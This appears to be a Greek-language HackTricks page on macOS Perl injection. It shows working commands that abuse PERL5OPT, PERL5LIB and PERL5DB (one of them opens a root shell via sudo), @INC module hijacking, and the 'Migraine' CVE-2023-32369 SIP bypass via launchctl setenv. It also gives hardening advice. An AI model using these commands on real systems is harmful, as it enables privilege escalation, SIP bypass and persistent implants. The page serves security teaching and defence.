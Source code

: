 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Μέσω της μεταβλητής περιβάλλοντος `PERL5OPT` & `PERL5LIB`

Χρησιμοποιώντας τη μεταβλητή περιβάλλοντος **`PERL5OPT`**, είναι δυνατόν να κάνετε το **Perl** να εκτελεί αυθαίρετες εντολές όταν ξεκινά ο διερμηνέας (ακόμα και **πριν** από την πρώτη γραμμή του στοχευμένου σεναρίου αναλυθεί).
Για παράδειγμα, δημιουργήστε αυτό το σενάριο:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Τώρα **εξάγετε τη μεταβλητή env** και εκτελέστε το **perl** σενάριο:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Μια άλλη επιλογή είναι να δημιουργήσετε ένα Perl module (π.χ. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
Και στη συνέχεια χρησιμοποιήστε τις μεταβλητές env ώστε το module να εντοπίζεται και να φορτώνεται αυτόματα:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Άλλες ενδιαφέρουσες μεταβλητές περιβάλλοντος

* **`PERL5DB`** – όταν ο διερμηνέας ξεκινά με την επιλογή **`-d`** (debugger), το περιεχόμενο του `PERL5DB` εκτελείται ως κώδικας Perl *μέσα* στο πλαίσιο του debugger. 
Αν μπορείτε να επηρεάσετε τόσο το περιβάλλον **όσο** και τις επιλογές γραμμής εντολών μιας προνομιακής διαδικασίας Perl, μπορείτε να κάνετε κάτι σαν:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # θα ανοίξει ένα shell πριν εκτελέσει το script
```

* **`PERL5SHELL`** – στα Windows αυτή η μεταβλητή ελέγχει ποιο εκτελέσιμο shell θα χρησιμοποιήσει το Perl όταν χρειάζεται να δημιουργήσει ένα shell. Αναφέρεται εδώ μόνο για πληρότητα, καθώς δεν είναι σχετική στο macOS.

Αν και το `PERL5DB` απαιτεί την επιλογή `-d`, είναι συνηθισμένο να βρίσκονται σενάρια συντήρησης ή εγκατάστασης που εκτελούνται ως *root* με αυτή την επιλογή ενεργοποιημένη για λεπτομερή αποσφαλμάτωση, καθιστώντας τη μεταβλητή έγκυρο μέσο κλιμάκωσης.

## Μέσω εξαρτήσεων (@INC abuse)

Είναι δυνατόν να καταγράψετε τη διαδρομή συμπερίληψης που θα αναζητήσει το Perl (**`@INC`**) εκτελώντας:
```bash
perl -e 'print join("\n", @INC)'
```
Τυπική έξοδος σε macOS 13/14 φαίνεται όπως:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Ορισμένοι από τους επιστρεφόμενους φακέλους δεν υπάρχουν καν, ωστόσο **`/Library/Perl/5.30`** υπάρχει, *δεν* προστατεύεται από το SIP και είναι *πριν* από τους φακέλους που προστατεύονται από το SIP. Επομένως, αν μπορείτε να γράψετε ως *root*, μπορείτε να ρίξετε ένα κακόβουλο module (π.χ. `File/Basename.pm`) που θα φορτωθεί *προτιμησιακά* από οποιοδήποτε προνομιακό script που εισάγει αυτό το module.

> [!WARNING]
> Χρειάζεστε ακόμα **root** για να γράψετε μέσα στο `/Library/Perl` και το macOS θα εμφανίσει ένα prompt **TCC** ζητώντας *Πλήρη Πρόσβαση Δίσκου* για τη διαδικασία που εκτελεί τη λειτουργία εγγραφής.

Για παράδειγμα, αν ένα script εισάγει **`use File::Basename;`**, θα ήταν δυνατό να δημιουργηθεί το `/Library/Perl/5.30/File/Basename.pm` που θα περιέχει κώδικα ελεγχόμενο από τον επιτιθέμενο.

## SIP bypass μέσω Migration Assistant (CVE-2023-32369 “Migraine”)

Τον Μάιο του 2023, η Microsoft αποκάλυψε το **CVE-2023-32369**, γνωστό ως **Migraine**, μια τεχνική post-exploitation που επιτρέπει σε έναν επιτιθέμενο *root* να παρακάμψει εντελώς την **Προστασία Ακεραιότητας Συστήματος (SIP)**. 
Το ευάλωτο συστατικό είναι το **`systemmigrationd`**, μια διεργασία που έχει δικαίωμα με **`com.apple.rootless.install.heritable`**. Οποιαδήποτε παιδική διαδικασία που δημιουργείται από αυτή τη διεργασία κληρονομεί το δικαίωμα και επομένως εκτελείται **εκτός** των περιορισμών του SIP.

Μεταξύ των παιδιών που εντοπίστηκαν από τους ερευνητές είναι ο ερμηνευτής υπογεγραμμένος από την Apple:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Επειδή το Perl σέβεται το `PERL5OPT` (και το Bash σέβεται το `BASH_ENV`), η δηλητηρίαση του *περιβάλλοντος* του δαίμονα είναι αρκετή για να αποκτήσετε αυθαίρετη εκτέλεση σε ένα περιβάλλον χωρίς SIP:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Όταν εκτελείται το `migrateLocalKDC`, το `/usr/bin/perl` ξεκινά με το κακόβουλο `PERL5OPT` και εκτελεί το `/private/tmp/migraine.sh` *πριν επανενεργοποιηθεί το SIP*. Από αυτό το σενάριο μπορείτε, για παράδειγμα, να αντιγράψετε ένα payload μέσα στο **`/System/Library/LaunchDaemons`** ή να αναθέσετε το εκτεταμένο χαρακτηριστικό `com.apple.rootless` για να κάνετε ένα αρχείο **μη διαγραφόμενο**.

Η Apple διόρθωσε το πρόβλημα στο macOS **Ventura 13.4**, **Monterey 12.6.6** και **Big Sur 11.7.7**, αλλά παλαιότερα ή μη ενημερωμένα συστήματα παραμένουν εκμεταλλεύσιμα.

## Συστάσεις σκληροποίησης

1. **Καθαρίστε επικίνδυνες μεταβλητές** – οι προνομιούχοι launchdaemons ή cron jobs θα πρέπει να ξεκινούν με ένα καθαρό περιβάλλον (`launchctl unsetenv PERL5OPT`, `env -i`, κ.λπ.).
2. **Αποφύγετε την εκτέλεση διερμηνέων ως root** εκτός αν είναι απολύτως απαραίτητο. Χρησιμοποιήστε συμπιεσμένα δυαδικά ή αποσύρετε τα προνόμια νωρίς.
3. **Προμηθευτείτε σενάρια με `-T` (λειτουργία taint)** ώστε το Perl να αγνοεί το `PERL5OPT` και άλλες μη ασφαλείς επιλογές όταν είναι ενεργοποιημένος ο έλεγχος taint.
4. **Διατηρήστε το macOS ενημερωμένο** – το “Migraine” είναι πλήρως ενημερωμένο στις τρέχουσες εκδόσεις.

## Αναφορές

- Microsoft Security Blog – “Νέα ευπάθεια macOS, Migraine, θα μπορούσε να παρακάμψει την Προστασία Ακεραιότητας Συστήματος” (CVE-2023-32369), 30 Μαΐου 2023.
- Hackyboiz – “Έρευνα παράκαμψης SIP macOS (PERL5OPT & BASH_ENV)”, Μάιος 2025.

{{#include ../../../banners/hacktricks-training.md}}
